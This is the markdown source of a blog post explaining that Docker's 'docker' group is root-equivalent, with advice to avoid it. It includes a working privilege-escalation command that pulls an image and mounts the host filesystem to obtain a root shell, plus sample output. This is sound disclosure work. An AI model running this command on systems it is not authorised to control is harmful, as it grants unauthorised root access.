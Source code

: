 ```yaml
---
layout: post
permalink: privilege-escalation-via-docker.html
title: Privilege Escalation via Docker
---
```


**TLDR;** Don't use the 'docker' group

[Docker](https://www.docker.com/), if you aren't already familiar with it, is a lightweight runtime and packaging tool. It's very similar to simply running a basic virtual machine, but with much less overhead. It's extremely nice for deploying applications as you can guarantee that they will run in identical environments, and the commit-like image system is handy as well.

If you happen to have gotten access to a user-account on a machine, and that user is a member of the 'docker' group, running the following command will give you a root shell:

<!-- Content Breaker -->

{% highlight console %}
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
{% endhighlight %}

<!-- Just in case Docker pulls the image:
**EDIT:** Docker appears to have removed by package from the Hub repository. The above command won't work, but you can achieve the same thing by building the Github repo:

{% highlight console %}
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
{% endhighlight %}
-->

This looks like the following when you run it:

{% highlight console %}
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
{% endhighlight %}

## The Problem

When you've spent any amount of time with Docker, a common complaint is that all of the commands require `sudo` prefixing them. _This is for a good reason_. Many of the design decisions that Docker made inherently give significant power to any user who has access to the daemon.

Anyways, because the additional five characters was too much to type, a 'docker' group was introduced to the package. The Docker daemon will allow access to either the root user or any user in the 'docker' group. This means giving someone 'docker' group access is equivalent to giving them _permanent, non-password-protected root access_.

## The Solution

This is a hard fix for Docker. Because of many of the design decisions they've opted for, it would require significant code rewriting in order to allow non-root users to access the daemon without it being a security risk. My person advice is just simply not use the 'docker' group, ever. At the very least, this should be made more clear on the [documentation](http://docs.docker.com/installation/ubuntulinux/#create-a-docker-group) for the 'docker' group. A newbie might not understand what 'root-equivalent' really means.

In Docker's defense, they are aware that this is a security problem, although they apparently have no intention of actually fixing it. About half way down in their [security document](http://docs.docker.com/articles/security/#docker-daemon-attack-surface), they do explain that the 'docker' group is root-equivalent and why that is dangerous.

## Exploit Details

The command you run to perform the privilege escalation fetches my Docker image from the [Docker Hub Registry](https://registry.hub.docker.com/) and runs it. The `-v` parameter that you pass to Docker specifies that you want to create a [volume](http://docs.docker.com/userguide/dockervolumes/) in the Docker instance. The `-i` and `-t` parameters put Docker into 'shell mode' rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance's volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.

There are _many, many_ other ways to achieve this, but this was one of the most straightforward. You can find the code in the [Github](https://github.com/chrisfosterelli/dockerrootplease) repo and the actual image on [Docker Hub](https://registry.hub.docker.com/u/chrisfosterelli/rootplease/).

Got any questions? [Tweet me.](https://twitter.com/chrisfosterelli)
